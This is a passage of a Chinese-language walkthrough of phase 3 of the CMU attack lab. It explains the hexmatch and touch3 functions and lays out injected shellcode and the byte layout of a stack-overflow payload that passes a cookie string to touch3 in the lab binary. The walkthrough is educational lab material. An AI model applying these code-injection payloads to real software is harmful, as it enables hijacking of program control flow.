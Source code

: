 程序rip寄存器的值，最终指向touch2函数的开始位置。

# 3

```c
//将val数字转换成字符串，与sval字符串进行比较9位，如果相同返回1，否则返回0
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    char *s = cbuf + rand() % 100;
    //将val转换成16进制的8位数使用s进行保存
    sprintf(s, "%.8x", val);
    //比较两个字符串的前n个字符相同返回0,s1大返回>0的值，反之返回<0
    printf("%s\n", s);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) {
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

根据hexmatch函数可以知道，该函数将数字0x59b997fa转换成了一个字符串"59b997fa"。

```c
    char c[] = "59b997fa";
    for (int i = 0; i < 8; ++i) {
        printf("%.2x ",c[i]);
    }
//35 39 62 39 39 37 66 61
```

35  39  62  39  39  37  66  61，要想执行touch3我们必须要有一个字符串是上面的顺序，才能够满足字符串相等的情况执行后续的步骤

分析我们要做的事情，首先sval也就是rdi寄存器的值应该保存着35  39  62  39  39  37  66  61的地址值。

大体的思路可以在2上面进行修改，首先我们先确定第一行的位置的地址是(也就是我们输入的第一个字符的位置(字符串的最低地址))：**0x5561dc78**。

```
mov 第6行的地址 rdi
push touch3
ret
........
78 dc 61 55 00 00 00 00 
35  39  62  39  39  37  66  61  00
```

**注意为什么要将35  39  62  39  39  37  66  61  00放到输入的最下面而不是放在上面缓冲区里面？**
